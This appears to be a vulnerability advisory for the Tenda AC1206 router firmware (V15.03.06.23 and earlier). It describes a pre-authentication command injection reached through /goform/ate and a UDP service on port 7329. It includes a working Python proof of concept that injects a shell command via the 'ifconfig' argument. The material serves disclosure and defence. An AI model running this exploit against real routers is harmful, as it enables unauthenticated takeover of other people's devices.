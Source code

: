 # Description

Tenda AC1206 ate_ifconfig_set has pre-authentication command injection

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

V15.03.06.23 and earlier 

# details

When accessing `url:/goform/ate`, `TendaAte` will be called

![2024-10-04_173619](2024-10-04_173619.png)

The `TendaAte` function creates a thread and calls `ate_main_handle`

![2024-10-04_173913](2024-10-04_173913.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

When `command` is `ifconfig`, the `ate_ifconfig_set` function is entered, in which the `arg` passed in by the user is not checked, and a command injection exists

![2024-10-04_173320](2024-10-04_173320.png)

# POC

```py
import socket
import time
import os

os.system('curl http://192.168.0.10/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'ifconfig ;' + command + b';'

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```

![2024-10-04_184329](2024-10-04_184329.png)
